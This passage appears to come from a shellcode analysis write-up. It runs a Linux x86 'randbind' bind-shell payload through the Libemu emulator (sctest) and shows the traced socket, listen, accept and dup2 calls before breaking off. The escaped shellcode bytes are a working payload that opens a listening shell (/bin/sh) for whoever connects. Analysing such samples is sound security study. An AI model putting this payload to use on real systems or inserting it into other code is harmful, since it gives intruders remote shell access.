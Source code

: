 

### Libemu

In this case Libemu works correctly:

```bash
echo -ne "\x31\xdb\xf7\xe3\xb0\x66\x43\x52\x53\x6a\x02\x89\xe1\xcd\x80\x52\x50\x89\xe1\xb0\x66\xb3\x04\xcd\x80\xb0\x66\x43\xcd\x80\x59\x93\x6a\x3f\x58\xcd\x80\x49\x79\xf8\xb0\x0b\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x41\xcd\x80" |  ./sctest -vvv -Ss 10000 -G randbind.dot
```

![Screenshot](images/randbind/4.png)

We get the next output:

```cpp
int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
int listen (
     int s = 14;
     int backlog = 0;
) =  0;
int accept (
     int sockfd = 14;
     sockaddr_in * addr = 0x00000000 => 
         none;
     int addrlen = 0x00000002 => 
         none;
) =  19;
int dup2 (
     int oldfd = 19;
     int newfd = 14;
) =  14;
int dup2 (
     int oldfd = 19;
     int newfd = 13;
) =  13;
int dup2 (
     int oldfd = 19;
     int newfd = 12;
) =  12;
int dup2 (
     int oldfd = 19;
     int newfd = 11;
) =  11;
int dup2 (
     int oldfd = 19;
     int newfd = 10;
) =  10;
int dup2 (
     int oldfd = 19;
```